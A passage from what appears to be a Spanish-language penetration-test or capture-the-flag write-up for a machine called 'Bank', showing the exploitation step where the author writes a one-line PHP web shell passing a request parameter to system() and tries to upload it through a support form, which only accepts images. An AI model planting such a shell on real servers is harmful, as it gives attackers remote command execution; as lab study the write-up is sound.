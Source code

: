 <h3 style="text-align:center" id="explotacion">EXPLOTACIÓN</h3><hr>

En esta etapa, el objetivo principal es simular un ataque real y probar la capacidad del sistema para resistir a posibles ataques y explotaciones.

<h3 style="text-align:center" id="subidarchivos">SUBIDA DE ARCHIVOS</h3><hr>

- Creamos un archivo para intentar subir en el área de support 

```php
<?php
	system($_RESQUEST['cmd']);
?>
```

![](../assets/images/Bank/cmd1.png)

- Pero solo me permite subir imágenes.

![](../assets/images/Bank/ops.png)
